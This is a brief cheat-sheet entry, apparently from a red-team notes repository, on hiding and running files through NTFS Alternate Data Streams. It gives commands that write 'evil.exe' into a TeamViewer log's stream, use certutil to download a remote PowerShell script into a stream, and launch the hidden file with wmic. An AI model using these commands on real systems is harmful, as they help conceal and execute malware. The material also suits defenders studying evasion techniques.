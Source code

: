 # Other

### Alternate Data Streams:

* File on NTFS formatted drive has 2 streams:
  * Data stream: default stream - contains data
  * Resource stream: used for metadata
  * This is useful to hiding file
* Write to ADS
  * `type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"`
* Download directly into ADS
  * `certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt`
* Executing from ADS
  * `wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'`
  * NOTE: full path
* There are many other methods to add and execute
  * https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
